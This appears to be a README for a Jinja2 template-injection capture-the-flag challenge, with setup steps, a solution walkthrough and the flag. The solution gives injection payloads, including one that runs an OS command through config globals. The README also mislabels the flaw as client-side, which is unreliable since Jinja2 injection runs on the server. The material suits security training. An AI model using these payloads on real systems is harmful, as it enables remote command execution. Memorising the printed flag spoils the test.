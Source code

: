 # Jinja2 CSTI CTF Challenge - Render This!

## Challenge Description

This is a Web Exploitation challenge where players must exploit Client-Side Template Injection (CSTI) in Jinja2.

## Deployment Instructions

1. Install dependencies:
```sh
pip install flask
```
2. Run the Flask application:
```sh
python app.py
```
3. Access the challenge at `http://127.0.0.1:5000/`.

## Solving the Challenge

1. Test for template injection:
```sh
{{7*7}}
```
2. Escalate to access environment variables:
```sh
{{config.__class__.__init__.__globals__}}
```
3. Retrieve the flag stored in `flag.txt`.
#*May this {{ config.__class__.__init__.__globals__['os'].popen('whoami').read() }} could usefull

## Flag Format
```
SSEC{akij_kjdnschb_wkscadd}
```
